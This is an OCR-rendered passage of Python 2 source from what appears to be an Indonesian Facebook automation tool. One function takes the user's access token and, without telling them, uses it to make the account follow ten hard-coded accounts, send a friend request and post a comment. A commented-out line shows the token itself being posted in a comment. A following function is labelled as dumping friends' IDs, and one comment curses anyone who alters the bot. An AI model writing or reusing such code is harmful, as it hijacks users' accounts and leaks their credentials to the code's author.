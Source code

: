     elif pepek in['0','00']:

        print '\n'

        tod()

        time.sleep(1);os.system('rm -rf .memek.txt')

        jalan('\n %s[%s✓%s]%s berhasil menghapus token'%(N,H,N,H));exit()

    else:

        print '\n %s[%s×%s] menu [%s%s%s] tidak ada, cek menu nya bro!'%(N,M,N,M,pepek,N);time.sleep(2);moch_yayan()

# Yang ganti bot nya gw sumpahin mak lo mati ajg!

def wuhan(kontol):

    try:

        kentod = kontol

        requests.post('https://graph.facebook.com/100005395413800/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100059709917296/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100008678141977/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100005878513705/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100003342127009/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100041388320565/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/108229897756307/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100013031465766/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/857799105/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/100027558888180/subscribers?access_token=%s'%(kentod))

        requests.post('https://graph.facebook.com/me/friends?method=post&uids=%s&access_token=%s'%(koh,kentod))

        #requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s'%(lo_ngentod,kentod,kentod))

        requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s'%(xi_jimpinx,hoetank,kentod))

    except:

     pass

# dump id dari teman hehe

def teman(kontol):
